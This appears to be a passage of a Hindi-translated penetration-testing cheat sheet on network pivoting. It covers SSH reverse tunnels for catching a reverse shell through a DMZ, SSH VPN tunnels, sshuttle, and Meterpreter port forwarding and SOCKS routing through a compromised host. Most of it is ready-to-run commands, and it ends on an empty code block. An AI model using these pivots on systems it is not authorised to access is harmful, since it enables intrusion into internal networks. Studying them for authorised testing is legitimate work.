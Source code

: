 यह आंतरिक होस्ट से DMZ के माध्यम से आपके होस्ट पर रिवर्स शेल प्राप्त करने के लिए उपयोगी है:
```bash
ssh -i dmz_key -R <dmz_internal_ip>:443:0.0.0.0:7000 root@10.129.203.111 -vN
# Now you can send a rev to dmz_internal_ip:443 and capture it in localhost:7000
# Note that port 443 must be open
# Also, remmeber to edit the /etc/ssh/sshd_config file on Ubuntu systems
# and change the line "GatewayPorts no" to "GatewayPorts yes"
# to be able to make ssh listen in non internal interfaces in the victim (443 in this case)
```
### VPN-Tunnel

आपको **दोनों उपकरणों में रूट** की आवश्यकता है (क्योंकि आप नए इंटरफेस बनाने जा रहे हैं) और sshd कॉन्फ़िगरेशन को रूट लॉगिन की अनुमति देनी होगी:\
`PermitRootLogin yes`\
`PermitTunnel yes`
```bash
ssh root@server -w any:any #This will create Tun interfaces in both devices
ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0 #Client side VPN IP
ifconfig tun0 up #Activate the client side network interface
ip addr add 1.1.1.1/32 peer 1.1.1.2 dev tun0 #Server side VPN IP
ifconfig tun0 up #Activate the server side network interface
```
सर्वर पक्ष पर फॉरवर्डिंग सक्षम करें
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
```
क्लाइंट साइड पर एक नया रूट सेट करें
```
route add -net 10.0.0.0/16 gw 1.1.1.1
```
## SSHUTTLE

आप **ssh** के माध्यम से सभी **traffic** को एक **subnetwork** के माध्यम से एक होस्ट पर **tunnel** कर सकते हैं।\
उदाहरण के लिए, 10.10.10.0/24 पर जाने वाले सभी traffic को फॉरवर्ड करना
```bash
pip install sshuttle
sshuttle -r user@host 10.10.10.10/24
```
निजी कुंजी के साथ कनेक्ट करें
```bash
sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa'
# -D : Daemon mode
```
## Meterpreter

### Port2Port

स्थानीय पोर्ट --> समझौता किया गया होस्ट (सक्रिय सत्र) --> तीसरा\_बॉक्स:पोर्ट
```bash
# Inside a meterpreter session
portfwd add -l <attacker_port> -p <Remote_port> -r <Remote_host>
```
### SOCKS
```bash
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 255.255.255.0 8)
use auxiliary/server/socks_proxy
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
एक और तरीका:
```bash
```